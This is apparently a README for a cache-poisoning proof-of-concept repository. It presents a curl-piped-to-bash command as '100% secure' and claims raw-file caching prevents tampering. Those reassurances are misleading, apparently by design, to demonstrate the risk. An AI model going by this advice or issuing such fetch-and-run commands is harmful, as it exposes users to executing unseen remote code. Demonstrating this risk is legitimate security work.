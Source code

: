 # 🚀 UltraSecureScript: A Minimal Yet Secure Execution Showcase

Welcome to **UltraSecureScript**, the simplest and safest way to execute a remote script directly from GitHub. Unlike other repositories that may contain vulnerabilities, this script is designed with absolute **integrity, transparency, and security** in mind.

## 🔒 **Why This is 100% Secure**
- ✅ **Zero Dependencies** – No additional software required.
- ✅ **Read-Only Execution** – The script only prints a harmless message.
- ✅ **No External Calls** – Does not interact with third-party services.
- ✅ **Public Codebase** – Every commit is open and verifiable.
- ✅ **GitHub-Backed Integrity** – Hosted on a trusted platform with full version control.
- ✅ **No History Manipulation** – Every commit is permanent and visible.

## ⚡ **Instant Execution**
To run this script securely on your machine, simply use:

```sh
curl -sL https://raw.githubusercontent.com/SedrakyanGnel/Cache_Poisoning_POC/main/main.sh | bash
```

or click here to **inspect the script** before executing:  
👉 **[View main.sh (raw)](https://raw.githubusercontent.com/SedrakyanGnel/Cache_Poisoning_POC/main/main.sh)**  

**What happens?**
- 🛠️ The script executes harmlessly.
- 🔍 No background processes, no hidden dependencies.
- 📝 You can inspect the source code **before running** to verify.

---

Dont worry **many companies** nowdays are automating stuff using github, why shouldn't you

---

## 🌍 **Public Codebase**
One of the key aspects of security is **transparency**. That’s why every commit in this repository is:
- **Permanently stored** in GitHub's version control.
- **Open for inspection** at any time.
- **Cryptographically verifiable**, ensuring no tampering.

📂 You can explore the full codebase here:  
👉 **[GitHub Repository](https://github.com/SedrakyanGnel/Cache_Poisoning_POC)**  

---

## 🛡️ **FAQ**
### **Is it really safe to execute a remote script like this?**
Yes! In this case, the script simply runs:
```sh
sudo echo "Nothing special :) You will never get hacked"
```
There are **no privilege escalations**, no downloads, no system modifications. It’s as safe as running `echo` yourself!

### **Can I check the script before executing?**
Absolutely! Just viwe commit history:
**[View Commit History](https://github.com/SedrakyanGnel/Cache_Poisoning_POC/commits)**  

or click here:  
👉 **[View main.sh (raw)](https://raw.githubusercontent.com/SedrakyanGnel/Cache_Poisoning_POC/main/main.sh)**  

### **What if someone tries to tamper with this repo?**
GitHub ensures integrity with cryptographic signatures and commit histories. Additionally, `raw.githubusercontent.com` serves **cached versions** for stability, preventing sudden unexpected changes.

---

### 🎯 **Conclusion**
This project exists to showcase **best practices** for remote script execution while ensuring security. Always **inspect scripts before execution**, and stay safe online! 🚀

Happy coding! 😊